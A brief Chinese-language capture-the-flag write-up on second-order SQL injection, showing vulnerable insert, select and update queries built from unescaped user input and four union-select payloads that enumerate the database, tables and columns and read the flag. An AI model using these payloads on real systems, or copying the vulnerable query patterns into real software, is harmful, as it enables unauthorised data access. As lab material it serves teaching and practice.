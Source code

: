 ```yaml
---
Author: Coder-LYQ
Date: 2021-1-13
---
```


##  思路

1. 二次注入原理

   用户注册：

   `insert into 数据表(列名1,列名2) VALUES ('','')`

   `insert into users(username,password,info) values ('{$username}','{$password}',' ');`

   用户登录：

   `select * from 数据表 where username='' and password=''`

   `select * from users where username='{$username}' and password='{$password}';`

   修改内容：

   `update users set info='{$info}' where username='{$_SESSION['username']}';`

2. union select语句特殊用法

3. payload

   ```sql
   username =1' union select database() #
   
   username =1' union select group_concat(table_name) from information_schema.tables where table_schema='ctftraining' #
   
   username =1' union select group_concat(column_name) from information_schema.columns where table_name='flag'#
   
   username =1' union select flag from flag #
   ```

   

## 总结

- 本题是一道sql二次注入的题目，不算特别难